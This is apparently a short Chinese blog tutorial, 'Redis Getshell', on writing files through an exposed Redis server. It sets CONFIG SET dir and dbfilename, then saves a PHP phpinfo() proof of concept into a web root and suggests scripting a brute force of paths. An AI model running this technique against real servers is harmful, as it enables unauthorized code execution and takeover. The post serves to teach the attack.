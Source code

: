 ```yaml
---
title: "Redis Getshell"
date: 2018-03-05T00:00:00+08:00
draft: false
tags: ['redis']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


本质上是 redis RDB 方式指定保存数据库的路径.

<!--more-->

## 介绍

redis 配置里有 dir 和 dbfilename

dir 存储路径 dbfilename 存储文件名

```
127.0.0.1:6379> config get dir
1) "dir"
2) "F:\Redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```

save 保存

## 利用

`config set dir 路径`

`config dbfilename 文件名`

`set web 内容`

`save`

```
127.0.0.1:6379> config set dir F:\phpStudy\WWW
OK
127.0.0.1:6379> config set dbfilename 'info.php'
OK
127.0.0.1:6379> set web '<?php phpinfo() ?>'
OK
```

另外 config set 不存在的 dir 会报错.

```
127.0.0.1:6379> config set dir F:\fakepath
(error) ERR Changing directory: No such file or directory
```

可以写脚本爆破路径